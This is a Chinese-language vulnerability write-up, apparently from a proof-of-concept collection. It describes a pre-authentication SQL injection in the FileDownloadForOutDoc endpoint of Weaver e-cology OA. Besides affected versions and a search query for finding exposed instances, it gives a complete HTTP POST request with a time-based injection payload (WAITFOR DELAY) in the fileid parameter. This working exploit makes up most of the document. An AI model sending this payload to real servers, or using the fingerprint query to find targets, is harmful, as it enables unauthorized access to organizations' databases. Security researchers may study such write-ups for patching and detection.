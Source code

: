 # 泛微OA e-cology FileDownloadForOutDoc前台SQL注入漏洞.md

## 漏洞描述

泛微e-cology未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞

## 漏洞影响

```
部分e-cology 8且补丁版本<10.58.0
部分e-cology 9且补丁版本<10.58.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现
主页

![](images/c1a26215-1b62-419c-9db4-feb67d554edc.png)


POC

```plain
POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close

fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1
```

![](images/5476bce7-1c60-4b6c-886a-92c014f43a50.png)
